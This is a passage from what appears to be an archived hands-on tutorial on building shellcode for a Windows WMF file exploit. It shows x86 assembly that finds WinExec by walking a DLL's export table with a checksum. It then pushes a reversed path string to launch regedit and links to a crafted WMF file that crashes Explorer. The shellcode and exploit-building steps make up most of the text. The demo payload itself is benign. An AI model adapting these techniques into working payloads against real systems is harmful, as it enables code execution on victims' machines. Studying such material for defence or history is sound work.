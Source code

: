 We compare the result of the checksum function, with the checksum we have in EBP.
If it's the same, we can leave, else we will have to loop to the 'NextFunction'
which points to the line I told you to remember earlier.

And Finally!

```
Next:
MOV EDX,[ECX+24]
ADD EDX,EBX ;align RVA
MOVZX EDX,WORD PTR[ESI*2+EDX]
MOV EAX,[ECX+1C]
ADD EAX,EBX
MOV EAX,[EDX*4+EAX]
ADD EAX,EBX ;Now we have WinExec in EAX
POP ESI
POP ECX
RET ;return to the calling function
```

Before going further, I'll put all those opcodes into a wmf file to see if it worked.

[Get it here](https://web.archive.org/web/20140214160834/http://www.osix.net/modules/folder/index.php?tid=10896&action=vf)

Oh, I forgot to tell you that the exploit will crash Explorer.exe (nothing terrible though)
so in case you wondered, nothing harmful happened.

Let's do something with `WinExec`

Like running regedit for example.

What we could do is add a string reference in the wmf file.
When you break on the Escape() function, and then put a breakpoint on your shellcode (cf first part),
ESI points to the begining of the shell code (which was 90909056)

We just need to count how many bytes there are between the first 90 and the start of the string we want to use
and insert just after POP ESI (remember we pushed ESI at the begining?) a code like:

```
push 0 ;show command
push [esi+pointer_to_string]
```


But we're not going to do this.

Instead we're going to push the string directly on the stack.
The string must be pushed inverted:

```
push 0
push 6578
push 652E7469
push 64656765
push 725C7377
push 6F646E69
push 775C3A43 ;path to regedit.exe in esp
push esp
call eax
```
